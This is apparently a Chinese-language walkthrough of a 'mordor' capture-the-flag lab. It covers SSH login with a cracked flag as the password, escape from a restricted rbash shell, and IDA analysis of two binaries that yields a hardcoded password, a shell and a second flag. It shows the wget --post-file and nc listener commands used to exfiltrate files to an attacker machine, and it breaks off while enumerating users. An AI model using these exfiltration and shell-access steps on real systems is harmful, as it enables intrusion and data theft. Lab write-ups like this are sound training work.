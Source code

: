 根据提示信息，猜测 **t22** 指的是**terminal 22**，也就是 ssh 登录名是：*orc*，密码是上一个的 flag， 也就是：`bc6fd79cd1fa7ebbcd420cb45434d9a2b4d921a5`，不过尝试后发现是输入其[明文](https://hashtoolkit.com/decrypt-hash/?hash=bc6fd79cd1fa7ebbcd420cb45434d9a2b4d921a5)：`disquise`。

```shell
orc@mordor:~$ ls -al
insgesamt 28
drwx------ 4 orc  orc  4096 Aug 29  2019 .
drwxr-xr-x 6 root root 4096 Aug 13  2019 ..
lrwxrwxrwx 1 root root    9 Aug  9  2019 .bash_history -> /dev/null
-rw-r--r-- 1 orc  orc   220 Aug  9  2019 .bash_logout
-rw-r--r-- 1 root root   86 Aug  9  2019 .bashrc
drwxr-xr-x 2 orc  orc  4096 Aug 29  2019 bin
drwxr-xr-x 3 orc  orc  4096 Aug  9  2019 .local
-rw-r--r-- 1 root root  807 Aug  9  2019 .profile
orc@mordor:~$ cd bin
-rbash: cd: gesperrt
orc@mordor:~$ ls -al ./bin
insgesamt 1888
drwxr-xr-x 2 orc orc    4096 Aug 29  2019 .
drwx------ 4 orc orc    4096 Aug 29  2019 ..
-rwxr-xr-x 1 orc orc   18200 Aug  9  2019 door
-rwxr-xr-x 1 orc orc  138856 Aug  9  2019 ls
-rwxr-xr-x 1 orc orc   16744 Aug 29  2019 outpost
-rwxr-xr-x 1 orc orc 1168776 Aug  9  2019 rbash
-rwxr-xr-x 1 orc orc   68416 Aug  9  2019 rm
-rwxr-xr-x 1 orc orc  466496 Aug  9  2019 wget
-rwxr-xr-x 1 orc orc   35456 Aug  9  2019 whoami
```

登录后发现是 *rbash* shell，并且只能执行几个命令，此外在 `/home/orc/bin`目录下存在二进制文件：`door`和 `output`，使用该目录下的 `wget` 命令将两个文件传到本地进行分析。

- 靶机执行 `wget` 命令上传：`wget --post-file=./bin/door 192.168.174.128:5566`
- kali 开启 **5566** 监听端口，并且将接收到的输入输出到文件：`nc -lvp 5566 > door`

> 不过该方法有个弊端，只能手工将请求头从文件的开始部分去掉即可

![2]({{ '/mordor_ctf/2.png' | prepend: site.url }})

通过IDA进行分析发现该程序流程比较简单，将输入的值与 *badpasword* 字段进行匹配，只要相同就可执行 */bin/sh* 指令，即获取一个shell。

通过同样的方法对 *outpost* 二进制文件进行分析，该程序也是将输入的值与16进制：`0xdeadbeef`进行比对，不过在 *exitOutpost()* 函数里我们可以直接看到正确的输出结果，得到第二个flag：`flag{8a29aaf5687129c1d27b90578fc33ecc49d069dc} | badpassword`

![3]({{ '/mordor_ctf/3.png' | prepend: site.url }})

![4]({{ '/mordor_ctf/4.png' | prepend: site.url }})

### flag3

获得 *sh* shell后进行简单收集发现存在四个普通用户：

```shell
$ ls -al
insgesamt 24
drwxr-xr-x  6 root      root      4096 Aug 13  2019 .
drwxr-xr-x 20 root      root      4096 Aug 13  2019 ..
drwx------  3 barad_dur barad_dur 4096 Jan  4  2020 barad_dur
drwxr-xr-x  2 developer developer 4096 Aug 29  2019 developer
drwx------  2 nazgul    nazgul    4096 Aug 13  2019 nazgul
drwx------  4 orc       orc       4096 Aug 29  2019 orc
```
